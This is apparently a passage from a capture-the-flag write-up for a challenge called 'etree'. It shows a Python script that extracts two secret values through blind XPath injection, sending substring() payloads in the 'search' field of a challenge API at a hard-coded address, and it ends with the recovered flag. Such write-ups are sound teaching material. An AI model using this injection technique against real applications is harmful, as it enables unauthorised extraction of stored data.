 We now have all the information to start bruteforcing the flag. 

```python
#!/usr/share/python3

from lxml import etree
import requests, string

url = 'http://138.68.177.159:30743/api/search'

flag = ""
first_flag = 21 # random'] | /military/district/staff[3]/selfDestructCode[string-length(text()) = 21] | /military/district/staff[name='random
second_flag =  15 # random'] | /military/district/staff[2]/selfDestructCode[string-length(text()) = 15] | /military/district/staff[name='random
alphabet = string.ascii_letters + string.digits + "$" + "{}_()"

print("Character set: " + alphabet)

for i in range(1, first_flag + 1):
    for al in alphabet:
        print("Testing: " + al +"\n")
        myobj = {"search":"random'] | /military/district/staff[3]/selfDestructCode[substring(text()," + str(i) + ",1) = '" + al + "'] | /military/district/staff[name='random"}
        with requests.post(url, json = myobj, stream=True) as x:
            status = x.json()['message']
            if status == "This millitary staff member exists.": 
                flag += al
                print("FLAG: " + flag)
                break

for i in range(1, second_flag + 1):
    for al in alphabet:
        print("Testing: " + al +"\n")
        myobj = {"search":"random'] | /military/district/staff[2]/selfDestructCode[substring(text()," + str(i) + ",1) = '" + al + "'] | /military/district/staff[name='random"}
        with requests.post(url, json = myobj, stream=True) as x:
            status = x.json()['message']
            if status == "This millitary staff member exists.": 
                flag += al
                print("FLAG: " + flag)
                break
```

![flag](/assets/images/etree-xpath/Pasted_image_20210421122458.png)

```
FLAG: CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}
```
